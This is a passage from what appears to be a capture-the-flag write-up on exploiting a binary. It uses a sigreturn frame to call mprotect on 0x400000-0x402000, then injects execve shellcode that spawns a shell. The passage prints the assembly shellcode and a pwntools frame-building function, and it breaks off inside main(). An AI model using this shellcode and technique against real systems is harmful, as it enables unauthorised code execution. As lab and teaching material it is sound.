 ## `mprotect` Method

After figuring out that the mmap method would not work remotely, I started searching for other syscalls I can use. One other alternative is using `mprotect` to make the `0x400000` - `0x402000` section writeable and executable. Then, inject the shellcode there (we need to find a similar gadget like in the `mmap` method, but we don't need to return to it since we can use the **vuln_ret** again to return to it), but the ret destination (where our shellcode will be) mustn't mess up the already existing instructions before executing our shellcode. The address of this gadget should also avoid instructions since the `push` opcode will be used in the `read` function before getting to our shellcode, which could mess things up.

After a lot of searching and trying different gadgets, we found one at address `0x4010d8` which will write and execute at `0x4010b8`.

![read](./img/read_7.png)
![map](./img/map_8.png)

For the shellcode, we do a similar thing, just with a different location for the binsh string:

```
[BITS 64]
mov rdi, 0x4010f0
mov rax, 59
xor rsi, rsi
xor rdx, rdx
syscall

```

and the payload:

```python
def get_mprot_frame():
    f = SigreturnFrame()
    f.rax = 0x0a
    f.rdi = 0x400000
    f.rsi = 0x2000
    f.rdx = 0x1 | 0x2 | 0x4
    f.rip = u64(SYSCALL_RET)
    f.rsp = 0x4010d8
    return bytes(f)

def main():
    r = conn()

```